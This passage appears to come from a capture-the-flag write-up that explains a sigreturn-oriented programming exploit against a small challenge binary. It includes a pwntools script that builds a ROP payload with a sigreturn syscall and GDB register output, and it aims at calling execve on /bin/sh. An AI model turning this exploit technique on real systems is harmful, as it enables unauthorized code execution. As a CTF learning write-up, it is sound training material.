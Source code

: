 The main hiccup to calling execve typically that it needs to called with a pointer to the string command that we want to execute, which is most typically /bin/sh. Fortunately, the exports section in ghidra references binsh; if I click on it, then click the address that it is referencing, I can see the string /bin/sh in a static location that I can easily load into rdi. I could also find this information by looking at the defined strings tab, again within Ghidra. 

![freesteam exe extraction](/home/knittingirl/CTF/metaCTF21/binsh_string_ghidra.png)

## Writing the Exploit:

One approach that I have taken when attempting to conceptualize how this technique works is appending the pwntools cyclic pattern after the syscall and seeing what gets loaded into the registers after making the call. For illustrative purposes, I will show that here. Here is the script that you can use to generate this result:
```
from pwn import *

target = process('./little')

pid = gdb.attach(target, "\nb *0x0040100f\n set disassembly-flavor intel\ncontinue")

syscall = p64(0x000000000040100d)
syscall_pop_rax = p64(0x0000000000401007)

padding = b''
payload = padding
payload += syscall_pop_rax
payload += p64(0xf)
payload += cyclic(300)

target.sendline(payload)

target.interactive()
```
And once I step down past the sigreturn in my ROPchain, here is what the registers look like in the GEF wrapper for GDB:
```
Program received signal SIGSEGV, Segmentation fault.
0x6261617362616172 in ?? ()

[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0               
$rbx   : 0x6261616962616168 ("haabiaab"?)
$rcx   : 0x6261616f6261616e ("naaboaab"?)
$rdx   : 0x6261616b6261616a ("jaabkaab"?)
$rsp   : 0x6261617162616170 ("paabqaab"?)
$rbp   : 0x6261616762616166 ("faabgaab"?)
$rsi   : 0x6261616562616164 ("daabeaab"?)
$rdi   : 0x6261616362616162 ("baabcaab"?)
$rip   : 0x6261617362616172 ("raabsaab"?)
$r8    : 0x6161616c6161616b ("kaaalaaa"?)
$r9    : 0x6161616e6161616d ("maaanaaa"?)
$r10   : 0x616161706161616f ("oaaapaaa"?)
$r11   : 0x6161617261616171 ("qaaaraaa"?)
$r12   : 0x6161617461616173 ("saaataaa"?)
$r13   : 0x6161617661616175 ("uaaavaaa"?)
$r14   : 0x6161617861616177 ("waaaxaaa"?)
$r15   : 0x6261617a61616179 ("yaaazaab"?)
```
